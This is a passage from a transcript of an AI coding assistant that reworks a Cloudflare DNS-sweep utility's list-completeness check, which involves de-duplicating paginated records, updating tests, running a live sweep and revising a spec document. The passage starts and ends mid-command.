accounts:\n            # The default argument binds this account's id at definition time; a bare closure\n            # over the loop variable would re-read the LAST account on every retry (ruff B023).\n            got, checked = read_all(\n                lambda account_id=account.id: client.zones.list(account={\"id\": account_id}),\n                f\"the zone list for account {account.id}\", warn)\n            zone_lists_checked += 1 if checked else 0\n            zones.extend(got)''',\n'''    tally = ListTally()\n    try:\n        accounts, shortfall = read_all(client.accounts.list, \"the account list\", warn)\n        tally.count(shortfall)\n        zones = []\n        for account in accounts:\n            # The default argument binds this account's id at definition time; a bare closure\n            # over the loop variable would re-read the LAST account on every retry (ruff B023).\n            got, shortfall = read_all(\n                lambda account_id=account.id: client.zones.list(account={\"id\": account_id}),\n                f\"the zone list for account {account.id}\", warn)\n            tally.count(shortfall)\n            zones.extend(got)''')\ns = s.replace('''    return accounts, zones, zone_lists_checked, 1 if account_checked else 0''',\n              '''    return accounts, zones, tally''')\n\ns = s.replace('''class SweepResult(NamedTuple):''',\n'''class ListTally:\n    \"\"\"How many paginated lists came back complete, short, or unverifiable.\"\"\"\n\n    def __init__(self):\n        self.complete = self.short = self.unverifiable = 0\n\n    def count(self, shortfall):\n        \"\"\"Record one list read.  `shortfall` is read_all's second return value.\"\"\"\n        if shortfall is None:\n            self.unverifiable += 1\n        elif shortfall:\n            self.short += 1\n        else:\n            self.complete += 1\n\n\nclass SweepResult(NamedTuple):''')\n\ns = s.replace('''    accounts, zones, zone_lists_checked, account_list_checked = list_zones(client, warn)\n    tally = {\"records\": 0, \"checked\": 0}\n\n    def zone_records():\n        \"\"\"(zone_id, record) pairs, one zone at a time.\"\"\"\n        for number, zone in enumerate(zones, start=1):\n            records, checked = read_all(\n                lambda zone_id=zone.id: client.dns.records.list(zone_id=zone_id),\n                f\"the record list for zone {zone.name}\", warn)\n            tally[\"records\"] += len(records)\n            tally[\"checked\"] += 1 if checked else 0\n            note(f\"[{number}/{len(zones)}] zone {zone.name} -- {len(records)} records\"\n                 f\"{'' if checked else ' (total_count unavailable, not cross-checked)'}\")\n            for dns_record in records:\n                yield zone.id, dns_record''',\n'''    accounts, zones, tally = list_zones(client, warn)\n    seen = {\"records\": 0}\n\n    def zone_records():\n        \"\"\"(zone_id, record) pairs, one zone at a time.\"\"\"\n        for number, zone in enumerate(zones, start=1):\n            records, shortfall = read_all(\n                lambda zone_id=zone.id: client.dns.records.list(zone_id=zone_id),\n                f\"the record list for zone {zone.name}\", warn)\n            tally.count(shortfall)\n            seen[\"records\"] += len(records)\n            marker = {None: \" (total_count unavailable, not cross-checked)\",\n                      0: \"\"}.get(shortfall, f\" ({shortfall} missed)\")\n            note(f\"[{number}/{len(zones)}] zone {zone.name} -- {len(records)} records{marker}\")\n            for dns_record in records:\n                yield zone.id, dns_record''')\n\ns = s.replace('''    return SweepResult(entries, warnings, len(accounts), len(zones), tally[\"records\"],\n                       tally[\"checked\"], zone_lists_checked, account_list_checked)''',\n'''    return SweepResult(entries, warnings, len(accounts), len(zones), seen[\"records\"],\n                       tally.complete, tally.short, tally.unverifiable)''')\n\ns = s.replace('''        print(f\"Truncation cross-check active for {sweep.records_checked} of {sweep.zones} \"\n              f\"record lists, {sweep.zone_lists_checked} of {sweep.accounts} zone lists, and \"\n              f\"{sweep.account_list_checked} of 1 account list.\", file=sys.stderr, flush=True)''',\n'''        lists = sweep.lists_complete + sweep.lists_short + sweep.lists_unverifiable\n        print(f\"Completeness cross-check: {sweep.lists_complete} of {lists} paginated lists \"\n              f\"verified complete, {sweep.lists_short} short, {sweep.lists_unverifiable} \"\n              \"unverifiable.\", file=sys.stderr, flush=True)\n        if sweep.lists_short:\n            print(\"ATTENTION: the short lists are named above; records missed while paging them \"\n                  \"are NOT in this file.\", file=sys.stderr, flush=True)''')\np.write_text(s)\nprint(\"implementation updated\")\nPY\nsource .venv/bin/activate && uvx ruff@0.15.22 check find-platform-domains-cloudflare",
  "description": "Rework the completeness accounting"
}
```

### ↳ Tool result

```
implementation updated
All checks passed!
```

## Assistant

Now the tests for the new contract:

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport pathlib\np = pathlib.Path(\"tests/unit/test_find_platform_domains_cloudflare.py\"); t = p.read_text()\n\n# FakePage gains an id-bearing default so accounts/zones fakes keep working unchanged.\nt = t.replace('''def test_read_all_does_not_abort_when_the_reread_omits_total_count(fpc):\n    \"\"\"R3's no-op rule applies to BOTH reads.  Guessing on the second aborted a COMPLETE re-read\n    while reporting \"truncated ... of None\" (round 3, finding 2).\"\"\"\n    pages = iter([FakePage([[record()]], total_count=2),\n                  FakePage([[record(), record(id=\"rec-2\")]], with_result_info=False)])\n    said = []\n    items, checked = fpc.read_all(lambda: next(pages), \"the record list for zone x\", said.append)\n    assert len(items) == 2\n    assert checked is False              # counted as unchecked, not asserted as verified\n    assert any(\"cannot cross-check\" in m for m in said)''',\n'''def test_read_all_reports_a_complete_read(fpc):\n    page = FakePage([[record(id=\"rec-1\"), record(id=\"rec-2\")]], total_count=2)\n    items, shortfall = fpc.read_all(lambda: page, \"the record list for zone x\", print)\n    assert len(items) == 2\n    assert shortfall == 0\n\n\ndef test_read_all_deduplicates_records_repeated_across_pages(fpc):\n    \"\"\"MEASURED on the first live sweep.  The SDK paginates by page NUMBER, so rows shifting\n    between page fetches make one record come back twice while another is stepped over.  Passing\n    the duplicate onward would append one record's origin twice and raise a FALSE \"more than one\n    platform-domain CNAME in this zone\" warning.\"\"\"\n    page = FakePage([[record(id=\"rec-1\"), record(id=\"rec-2\")],\n                     [record(id=\"rec-2\"), record(id=\"rec-3\")]], total_count=3)\n    items, shortfall = fpc.read_all(lambda: page, \"the record list for zone x\", print)\n    assert sorted(i.id for i in items) == [\"rec-1\", \"rec-2\", \"rec-3\"]\n    assert shortfall == 0\n\n\ndef test_read_all_cannot_check_without_total_count(fpc):\n    page = FakePage([[record()]], with_result_info=False)\n    items, shortfall = fpc.read_all(lambda: page, \"the record list for zone x\", print)\n    assert len(items) == 1\n    assert shortfall is None             # unverifiable, NOT asserted as complete\n\n\ndef test_read_all_unions_a_reread_to_close_the_gap(fpc):\n    \"\"\"A second walk usually steps over different rows, so the union is more complete than\n    either read alone.\"\"\"\n    pages = iter([FakePage([[record(id=\"rec-1\")]], total_count=2),\n                  FakePage([[record(id=\"rec-2\")]], total_count=2)])\n    said = []\n    items, shortfall = fpc.read_all(lambda: next(pages), \"the record list for zone x\", said.append)\n    assert sorted(i.id for i in items) == [\"rec-1\", \"rec-2\"]\n    assert shortfall == 0\n    assert any(\"re-reading to close the gap\" in m for m in said)\n\n\ndef test_read_all_warns_but_does_not_abort_when_records_stay_missing(fpc):\n    \"\"\"A shortfall is a WARNING, never fatal: a paginated walk of a continuously-written zone may\n    never be exactly complete, and aborting would mean never producing output at all.\"\"\"\n    pages = iter([FakePage([[record(id=\"rec-1\")]], total_count=3),\n                  FakePage([[record(id=\"rec-2\")]], total_count=3)])\n    said = []\n    items, shortfall = fpc.read_all(lambda: next(pages), \"the record list for zone x\", said.append)\n    assert sorted(i.id for i in items) == [\"rec-1\", \"rec-2\"]\n    assert shortfall == 1\n    assert any(\"1 record(s) were missed\" in m for m in said)\n    assert any(\"NOT in this file\" in m for m in said)''')\n\n# the abort tests are gone: a shortfall no longer aborts\nt = t.replace('''def test_fetch_platform_cnames_aborts_when_the_reread_also_disagrees(fpc):\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")],\n        pages_by_zone={\"zone-a\": [FakePage([[record()]], total_count=3)]})\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.fetch_platform_cnames(client)\n    assert \"truncated\" in str(caught.value)\n    assert \"read 1 of 3\" in str(caught.value)\n    assert \"record list for zone\" in str(caught.value)\n\n\ndef test_fetch_platform_cnames_aborts_on_a_truncated_zone_list(fpc):\n    \"\"\"A short ZONE list silently omits every record in the missing zones -- strictly worse than\n    a short record list, and the zero-zones guard only catches the degenerate case.\"\"\"\n    client = FakeCloudflareClient(\n        accounts=[account()],\n        zones=FakePage([[zone(\"zone-a\")]], total_count=9))\n    with pytest.raises(fpc.StartupError) as caught:\n        fpc.fetch_platform_cnames(client)\n    assert \"truncated\" in str(caught.value)\n    assert \"zone list for account acct-1\" in str(caught.value)\n\n\ndef test_fetch_platform_cnames_reports_zones_it_could_not_cross_check(fpc):\n    \"\"\"The cross-check must no-op wherever Cloudflare omits total_count -- and must SAY it did,\n    because a guard that silently never ran looks exactly like one that found nothing wrong.\"\"\"\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\"), zone(\"zone-b\", \"example.org\")],\n        pages_by_zone={\"zone-a\": [FakePage([[record()]], with_result_info=False)],\n                       \"zone-b\": [FakePage([[]], total_count=0)]})\n    sweep = fpc.fetch_platform_cnames(client)\n    assert list(sweep.entries) == [\"www.example.edu\"]\n    assert sweep.records_checked == 1\n    assert sweep.zones == 2''',\n'''def test_fetch_platform_cnames_reports_a_short_list_without_aborting(fpc, capsys):\n    \"\"\"The first live sweep aborted an entire 187-zone run over 2 records missed in one\n    18,848-record zone.  A shortfall is now reported and the file is still written.\"\"\"\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")],\n        pages_by_zone={\"zone-a\": [FakePage([[record()]], total_count=3)]})\n    sweep = fpc.fetch_platform_cnames(client)\n    assert list(sweep.entries) == [\"www.example.edu\"]\n    assert sweep.lists_short == 1\n    assert \"were missed while paging\" in capsys.readouterr().err\n\n\ndef test_fetch_platform_cnames_counts_every_list_it_reads(fpc):\n    \"\"\"Completeness is counted over the account list, each zone list, and each record list --\n    reporting only record lists would leave the zone-list check unaccounted for.\"\"\"\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\"), zone(\"zone-b\", \"example.org\")],\n        pages_by_zone={\"zone-a\": [FakePage([[record()]], with_result_info=False)],\n                       \"zone-b\": [FakePage([[]], total_count=0)]})\n    sweep = fpc.fetch_platform_cnames(client)\n    assert list(sweep.entries) == [\"www.example.edu\"]\n    # account list (no result_info) + zone list (no result_info) + zone-a records = 3\n    # unverifiable; zone-b's empty-but-counted record list = 1 complete.\n    assert (sweep.lists_complete, sweep.lists_short, sweep.lists_unverifiable) == (1, 0, 3)''')\n\n# SweepResult field renames in the remaining tests\nt = t.replace(\"    assert sweep.records_checked == 2\", \"    assert sweep.lists_complete == 4\")\nt = t.replace('''    assert sorted(sweep.entries) == [\"page1.example.edu\", \"page2.example.edu\"]\n    assert sweep.records_checked == 1''',\n'''    assert sorted(sweep.entries) == [\"page1.example.edu\", \"page2.example.edu\"]\n    assert sweep.lists_complete == 1 + 2   # the record list, plus the account and zone lists''')\nt = t.replace(\"        ['ATTENTION: something worth seeing'], 1, 4, 12431, 3, 1, 1))\",\n              \"        ['ATTENTION: something worth seeing'], 1, 4, 12431, 40, 1, 2))\")\nt = t.replace('[\"ATTENTION: something worth seeing\"], 1, 4, 12431, 3, 1, 1))',\n              '[\"ATTENTION: something worth seeing\"], 1, 4, 12431, 40, 1, 2))')\nt = t.replace(\"lambda client, verbose=False: fpc.SweepResult({}, [], 1, 4, 900, 4, 1, 1))\",\n              \"lambda client, verbose=False: fpc.SweepResult({}, [], 1, 4, 900, 6, 0, 0))\")\nt = t.replace(\"lambda client, verbose=False: fpc.SweepResult({}, [], 1, 1, 0, 1, 1, 1))\",\n              \"lambda client, verbose=False: fpc.SweepResult({}, [], 1, 1, 0, 3, 0, 0))\")\nt = t.replace(\"fpc.SweepResult({\\\"a.example.edu\\\": entry}, [], 1, 1, 1, 1, 1, 1))\",\n              \"fpc.SweepResult({\\\"a.example.edu\\\": entry}, [], 1, 1, 1, 3, 0, 0))\")\nt = t.replace('''    assert (\"Truncation cross-check active for 3 of 4 record lists, 1 of 1 zone lists, \"\n            \"and 1 of 1 account list.\") in err''',\n'''    assert (\"Completeness cross-check: 40 of 43 paginated lists verified complete, 1 short, \"\n            \"2 unverifiable.\") in err\n    assert \"the short lists are named above\" in err''')\n# retry/reread fetch test: now unions rather than \"agrees\"\nt = t.replace('''def test_fetch_platform_cnames_retries_once_and_continues_when_the_reread_agrees(fpc):\n    \"\"\"total_count is computed for page 1, so a record changed mid-sweep makes the counts differ\n    for an entirely benign reason.  A re-read that is internally consistent is that case.\"\"\"\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")],\n        pages_by_zone={\"zone-a\": [\n            FakePage([[record(name=\"a.example.edu\", id=\"rec-1\")]], total_count=2),   # disagrees\n            FakePage([[record(name=\"a.example.edu\", id=\"rec-1\"),\n                       record(name=\"b.example.edu\", id=\"rec-2\")]], total_count=2),   # agrees\n        ]})\n    sweep = fpc.fetch_platform_cnames(client)\n    assert sorted(sweep.entries) == [\"a.example.edu\", \"b.example.edu\"]\n    assert sweep.zones_checked == 1''',\n'''def test_fetch_platform_cnames_unions_a_reread_to_close_a_gap(fpc):\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")],\n        pages_by_zone={\"zone-a\": [\n            FakePage([[record(name=\"a.example.edu\", id=\"rec-1\")]], total_count=2),\n            FakePage([[record(name=\"b.example.edu\", id=\"rec-2\")]], total_count=2),\n        ]})\n    sweep = fpc.fetch_platform_cnames(client)\n    assert sorted(sweep.entries) == [\"a.example.edu\", \"b.example.edu\"]\n    assert sweep.lists_short == 0''')\nt = t.replace('''    err = capsys.readouterr().err\n    assert \"re-reading to tell a concurrent change apart\" in err\n    assert \"re-read agrees\" in err''',\n'''    assert \"re-reading to close the gap\" in capsys.readouterr().err''')\np.write_text(t)\nprint(\"tests updated\")\nPY\nsource .venv/bin/activate && python -m pytest tests/unit/test_find_platform_domains_cloudflare.py -q -p no:cacheprovider 2>&1 | tail -8",
  "description": "Update tests and run"
}
```

### ↳ Tool result

```
tests updated

tests/unit/test_find_platform_domains_cloudflare.py:461: AttributeError
----------------------------- Captured stderr call -----------------------------
the record list for zone example.edu: read 1 unique of 2 -- re-reading to close the gap
=========================== short test summary info ============================
FAILED tests/unit/test_find_platform_domains_cloudflare.py::test_fetch_platform_cnames_walks_every_zone_regardless_of_proxy_status
FAILED tests/unit/test_find_platform_domains_cloudflare.py::test_fetch_platform_cnames_retries_once_and_continues_when_the_reread_agrees
2 failed, 61 passed in 1.12s
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && python -m pytest tests/unit/test_find_platform_domains_cloudflare.py -q -p no:cacheprovider 2>&1 | grep -E \"^E |assert sweep|line 4[0-9][0-9]\" | head -12; echo \"=== the two tests:\"; sed -n '448,470p' tests/unit/test_find_platform_domains_cloudflare.py",
  "description": "Inspect the two failures"
}
```

### ↳ Tool result

```
        assert sweep.entries["dnsonly.example.org"]["proxied"] is False
        assert sweep.warnings == []
>       assert sweep.lists_complete == 4
E       AssertionError: assert 2 == 4
E        +  where 2 = SweepResult(entries={'proxied.example.edu': {'zone_id': 'zone-a', 'origins': ['live-umich-example1.pantheonsite.io'], ...'settings': None}}, warnings=[], accounts=1, zones=2, records=3, lists_complete=2, lists_short=0, lists_unverifiable=2).lists_complete
>       assert sweep.records_checked == 1
E       AttributeError: 'SweepResult' object has no attribute 'records_checked'
=== the two tests:

def test_fetch_platform_cnames_retries_once_and_continues_when_the_reread_agrees(fpc):
    """total_count is computed for page 1, so a record changed mid-sweep makes the counts differ
    for an entirely benign reason.  A re-read that is internally consistent is that case."""
    client = FakeCloudflareClient(
        accounts=[account()], zones=[zone("zone-a")],
        pages_by_zone={"zone-a": [
            FakePage([[record(name="a.example.edu", id="rec-1")]], total_count=2),   # disagrees
            FakePage([[record(name="a.example.edu", id="rec-1"),
                       record(name="b.example.edu", id="rec-2")]], total_count=2),   # agrees
        ]})
    sweep = fpc.fetch_platform_cnames(client)
    assert sorted(sweep.entries) == ["a.example.edu", "b.example.edu"]
    assert sweep.records_checked == 1


def test_fetch_platform_cnames_reports_a_short_list_without_aborting(fpc, capsys):
    """The first live sweep aborted an entire 187-zone run over 2 records missed in one
    18,848-record zone.  A shortfall is now reported and the file is still written."""
    client = FakeCloudflareClient(
        accounts=[account()], zones=[zone("zone-a")],
        pages_by_zone={"zone-a": [FakePage([[record()]], total_count=3)]})
    sweep = fpc.fetch_platform_cnames(client)
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport pathlib\np = pathlib.Path(\"tests/unit/test_find_platform_domains_cloudflare.py\"); t = p.read_text()\n# the account and zone list fakes are plain lists (no result_info) -> unverifiable\nt = t.replace(\"    assert sweep.lists_complete == 4\",\n              \"    # both record lists complete; the account and zone list fakes are plain lists\\n\"\n              \"    # with no result_info, so they are unverifiable rather than complete.\\n\"\n              \"    assert (sweep.lists_complete, sweep.lists_unverifiable) == (2, 2)\")\nt = t.replace('''def test_fetch_platform_cnames_retries_once_and_continues_when_the_reread_agrees(fpc):\n    \"\"\"total_count is computed for page 1, so a record changed mid-sweep makes the counts differ\n    for an entirely benign reason.  A re-read that is internally consistent is that case.\"\"\"\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")],\n        pages_by_zone={\"zone-a\": [\n            FakePage([[record(name=\"a.example.edu\", id=\"rec-1\")]], total_count=2),   # disagrees\n            FakePage([[record(name=\"a.example.edu\", id=\"rec-1\"),\n                       record(name=\"b.example.edu\", id=\"rec-2\")]], total_count=2),   # agrees\n        ]})\n    sweep = fpc.fetch_platform_cnames(client)\n    assert sorted(sweep.entries) == [\"a.example.edu\", \"b.example.edu\"]\n    assert sweep.records_checked == 1''',\n'''def test_fetch_platform_cnames_unions_a_reread_to_close_a_gap(fpc):\n    \"\"\"A second walk steps over different rows, so the union is more complete than either read\n    alone -- and often closes the gap outright.\"\"\"\n    client = FakeCloudflareClient(\n        accounts=[account()], zones=[zone(\"zone-a\")],\n        pages_by_zone={\"zone-a\": [\n            FakePage([[record(name=\"a.example.edu\", id=\"rec-1\")]], total_count=2),\n            FakePage([[record(name=\"b.example.edu\", id=\"rec-2\")]], total_count=2),\n        ]})\n    sweep = fpc.fetch_platform_cnames(client)\n    assert sorted(sweep.entries) == [\"a.example.edu\", \"b.example.edu\"]\n    assert sweep.lists_short == 0''')\nt = t.replace('''    assert sorted(sweep.entries) == [\"page1.example.edu\", \"page2.example.edu\"]\n    assert sweep.lists_complete == 1 + 2   # the record list, plus the account and zone lists''',\n'''    assert sorted(sweep.entries) == [\"page1.example.edu\", \"page2.example.edu\"]\n    assert sweep.lists_complete == 1       # the record list; the account/zone fakes are plain\n                                           # lists with no result_info, so unverifiable''')\np.write_text(t)\nPY\nsource .venv/bin/activate && python -m pytest tests/unit/test_find_platform_domains_cloudflare.py -q -p no:cacheprovider 2>&1 | tail -5",
  "description": "Fix the assertions and re-run"
}
```

### ↳ Tool result

```
...............................................................          [100%]
63 passed in 0.88s
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && ./run-tests --fast 2>&1 | tail -4",
  "description": "Full gate before re-running the sweep",
  "timeout": 600000
}
```

### ↳ Tool result

```
107 snapshots passed.
========= 1262 passed, 3 skipped, 2 deselected, 15 warnings in 32.72s ==========
Linting (ruff, campaign ratchet) ...
Type-checking (pyright, campaign ratchet) ...
```

## Assistant

63 tests, full suite 1262 passed, gates green. Re-running the live sweep:

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && { time ./find-platform-domains-cloudflare -v ; echo \"exit=$?\" ; } > /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/sweep2.log 2>&1",
  "description": "Re-run the live Cloudflare sweep",
  "run_in_background": true
}
```

### ↳ Tool result

```
Command running in background with ID: byfwa65v0. Output is being written to: /tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/tasks/byfwa65v0.output. You will be notified when it completes. To check interim output, use Read on that file path.
```

## Assistant

Sweep re-running. I'll report when it lands.

## User

<task-notification>
<task-id>byfwa65v0</task-id>
<tool-use-id>toolu_01M2uvnNDKeBGvYcrMaKbGDu</tool-use-id>
<output-file>/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/tasks/byfwa65v0.output</output-file>
<status>completed</status>
<summary>Background command "Re-run the live Cloudflare sweep" completed (exit code 0)</summary>
</task-notification>

### ⚙ Tool call: `Bash`

```json
{
  "command": "L=/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/scratchpad/sweep2.log\ngrep -E \"^Wrote |^ATTENTION|^ERROR|^Completeness|^exit=|re-read|^real|missed\" \"$L\"\necho \"=== zones swept: $(grep -c '^\\[' \"$L\")\"",
  "description": "Read the second sweep result"
}
```

### ↳ Tool result

```
Wrote 218 platform-domain CNAMEs (5 DNS-only, invisible to fqdns.json) from 22911 records in 187 zones in 4 account(s) to platform-domains-cloudflare.json.
Completeness cross-check: 192 of 192 paginated lists verified complete, 0 short, 0 unverifiable.
real	2m17.620s
exit=0
=== zones swept: 187
```

## Assistant

**Sweep succeeded.**

```
Wrote 218 platform-domain CNAMEs (5 DNS-only, invisible to fqdns.json)
  from 22911 records in 187 zones in 4 account(s)
Completeness cross-check: 192 of 192 paginated lists verified complete, 0 short, 0 unverifiable
real 2m17.620s     exit=0
```

No re-reads fired at all — de-duplicating by `record_id` alone removed the false positive, because unique count now matches `total_count` exactly where raw item count overshot it. Task 7 Steps 2 and 3:

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && python - <<'PY'\nimport json\ndata = json.load(open(\"platform-domains-cloudflare.json\"))\nexpected_keys = {\"zone_id\", \"origins\", \"record_id\", \"proxied\", \"ttl\", \"comment\", \"tags\",\n                 \"settings\"}\nfor name, entry in data.items():\n    assert set(entry) == expected_keys, f\"{name}: unexpected key set {set(entry)}\"\n    for origin in entry[\"origins\"]:\n        assert origin.rstrip(\".\").lower().endswith(\".pantheonsite.io\"), f\"{name}: {origin}\"\n    assert name == name.strip().rstrip(\".\").lower(), f\"{name}: key not normalized\"\nprint(len(data), \"entries;\",\n      sum(1 for e in data.values() if not e[\"proxied\"]), \"DNS-only (invisible to fqdns.json);\",\n      sum(1 for e in data.values() if e[\"proxied\"] is None), \"unknown proxy status;\",\n      sum(1 for e in data.values() if len(e[\"origins\"]) > 1), \"with multiple origins\")\nPY",
  "description": "Task 7 Step 2: verify the output contract"
}
```

### ↳ Tool result

```
218 entries; 5 DNS-only (invisible to fqdns.json); 0 unknown proxy status; 0 with multiple origins
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "source .venv/bin/activate && python - <<'PY'\nimport json\nnew = json.load(open(\"platform-domains-cloudflare.json\"))\nold = json.load(open(\"fqdns.json\"))\n# BOTH sides normalized: this file keys by the normalized name, fqdns.json by the raw\n# record.name, so differencing them raw invents phantom entries (SPEC R5a).\ndef norm(name): return name.strip().rstrip(\".\").lower()\nproxied_here = {norm(k) for k, v in new.items() if v[\"proxied\"]}\nmissing = sorted(proxied_here - {norm(k) for k in old})\nprint(\"proxied platform CNAMEs this run found that fqdns.json lacks:\", len(missing))\nfor m in missing[:10]:\n    print(\"   \", m)\nimport os, time\nprint(\"fqdns.json age: %.1f hours\" % ((time.time() - os.path.getmtime(\"fqdns.json\")) / 3600))\nPY",
  "description": "Task 7 Step 3: cross-check against fqdns.json"
}
```

### ↳ Tool result

```
proxied platform CNAMEs this run found that fqdns.json lacks: 0
fqdns.json age: 50.3 hours
```

## Assistant

Clean cross-check: **0 discrepancies** against `fqdns.json`, despite that file being 50 hours stale — strong evidence the walk is correct. And the 5 DNS-only entries are precisely what `fqdns.json` structurally cannot contain, which is the reason this script exists.

Task 7 Step 4 — the live run changed the design, so the spec must follow. Re-splicing the changed code and updating the prose:

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport re, pathlib\nscript = pathlib.Path(\"find-platform-domains-cloudflare\").read_text()\ntests  = pathlib.Path(\"tests/unit/test_find_platform_domains_cloudflare.py\").read_text()\ns5 = script[script.index(\"def expected_record_count(page):\"):].rstrip()\nt5 = tests[tests.index(\"# --- Task 5\"):].rstrip()\n\nsp = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\")\nspec = sp.read_text()\nfor head, new in ((\"def expected_record_count\", s5), (\"# --- Task 5\", t5)):\n    m = next(b for b in re.finditer(r\"```python\\n(.*?)```\", spec, re.S)\n             if b.group(1).lstrip().startswith(head))\n    spec = spec[:m.start()] + \"```python\\n\" + new + \"\\n```\" + spec[m.end():]\nsp.write_text(spec)\nprint(\"re-spliced Task 5 script + tests from the working code\")\nPY",
  "description": "Re-splice the changed Task 5 code into the spec"
}
```

### ↳ Tool result

```
re-spliced Task 5 script + tests from the working code
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport pathlib\np = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\"); t = p.read_text()\nsub = [\n# --- R3: the guard as it actually is now --------------------------------------------------\n(\"\"\"- **All three are cross-checked (MUST)** by `read_all` against Cloudflare's own `total_count`.\"\"\",\n \"\"\"- **Every list is de-duplicated by id (MUST).** Measured on the first live sweep: the SDK\n  paginates by page *number*, so when rows shift between page fetches — routine in a zone being\n  actively written — the same record returns on two pages while another is stepped over. On an\n  18,848-record zone this produced 2 duplicates and 2 misses. Duplicates must not reach the fold,\n  where they would append one record's origin twice and raise a **false** R7 duplicate-name\n  warning.\n- **All three are cross-checked (MUST)** by `read_all`, comparing the **unique** item count\n  against Cloudflare's own `total_count`.\"\"\")\n,\n(\"\"\"- **A mismatch triggers exactly one re-read, then decides.** `total_count` is computed for the\n  *first* page, so an item added or removed between that page and the last makes the counts\n  disagree for an entirely benign reason — likely across a sweep measured in tens of minutes at an\n  institution that actively manages this DNS. A second read that agrees with **its own**\n  `total_count` is a concurrent change and is the answer kept; a second disagreement is truncation\n  and is **fatal**, with **no file written**. Conflating the two would misdiagnose the common case\n  and send the operator hunting an API bug. **The notice is printed at default verbosity**, not\n  under `-v`: a re-read means the data moved under the sweep, which an operator wants to see on\n  every run.\"\"\",\n \"\"\"- **A shortfall triggers one re-read, UNIONED with the first, and is then a WARNING — never\n  fatal.** A second walk steps over different rows, so the union is more complete than either read\n  alone and usually closes the gap. If items are still missing, the run says which list and by how\n  many, and **still writes the file**. Aborting was the original design and it was **wrong**: the\n  first live sweep died at exit 2 over 2 records missed in one zone out of 187, and a paginated\n  walk of a continuously-written zone may never be exactly complete, so aborting would mean this\n  utility never produces output at all (§13, live run). **The notice prints at default\n  verbosity**, not under `-v`.\n- **Counting unique ids is what makes the check meaningful.** Raw item count fails in *both*\n  directions, both measured on the same zone: 18840 items vs `total_count` 18838 → a false\n  \"truncated\" abort; and 18848 items vs `total_count` 18848 → a false *pass*, because 2 duplicates\n  and 2 misses cancelled out exactly. Unique counting removes the false positive and closes the\n  false negative.\n- **Stated residual:** a `total_count` derived from the same incomplete query would agree with a\n  short read and be accepted. The check catches a disagreement between count and content, not a\n  server that is consistently wrong.\"\"\")\n,\n(\"\"\"| 2 | could not complete: config unreadable / not TOML **/ not UTF-8**, no `[Cloudflare]` section, a non-`str` credential, an unresolvable / malformed / unsupported substitution, missing credentials, any `cloudflare.CloudflareError`, zero zones, **a truncated list (accounts, zones, or records) confirmed by a re-read**, or an `OSError` writing the output file |\"\"\",\n \"\"\"| 2 | could not complete: config unreadable / not TOML **/ not UTF-8**, no `[Cloudflare]` section, a non-`str` credential, an unresolvable / malformed / unsupported substitution, missing credentials, any `cloudflare.CloudflareError`, zero zones, or an `OSError` writing the output file. **An incomplete list is NOT here** — it warns and the file is still written (R3) |\"\"\"),\n# --- §6 -----------------------------------------------------------------------------------\n(\"\"\"- **The guard reports its own coverage** at default verbosity, for **all three** list kinds —\n  `Truncation cross-check active for 41 of 43 record lists, 2 of 2 zone lists, and 1 of 1 account\n  list.` Reporting only the record lists would leave the *zone*-list guard — the one R3 calls\n  \"strictly worse\" to lose — silently unaccounted for. This is what makes §14 Q1 answerable; a\n  guard whose liveness is invisible is not a guard.\"\"\",\n \"\"\"- **The guard reports its own coverage** at default verbosity, over **every** paginated list it\n  read — `Completeness cross-check: 192 of 192 paginated lists verified complete, 0 short, 0\n  unverifiable.` Reporting only the record lists would leave the zone-list check silently\n  unaccounted for. This is what makes §14 Q1 answerable; a guard whose liveness is invisible is\n  not a guard.\n- **A short list is named individually**, with the count and the consequence spelled out —\n  *\"Any platform-domain CNAME among them is NOT in this file.\"*\"\"\"),\n# --- §7 counts ----------------------------------------------------------------------------\n(\"fully offline, **60 tests**.\", \"fully offline, **63 tests**.\"),\n(\"fully offline, 60 tests.\", \"fully offline, 63 tests.\"),\n(\"Task 5: lint clean   60 passed\", \"Task 5: lint clean   63 passed\"),\n(\"Expected: **60 passed** (40 + 20 here\", \"Expected: **63 passed** (40 + 23 here\"),\n(\"(8 / 25 / 37 / 40 / 60)\", \"(8 / 25 / 37 / 40 / 63)\"),\n(\"green; 60 new tests\", \"green; 63 new tests\"),\n]\nn = 0\nfor a, b in sub:\n    if a in t:\n        t = t.replace(a, b); n += 1\n    else:\n        print(\"NOT FOUND:\", a[:65].replace(\"\\n\", \" \"))\np.write_text(t)\nprint(f\"applied {n}/{len(sub)}\")\nPY",
  "description": "Update the spec's R3, R6, §6 and counts"
}
```

### ↳ Tool result

```
applied 10/10
```

## Assistant

Now recording §12 (the live run) and §13's live-run corrections:

### ⚙ Tool call: `Bash`

```json
{
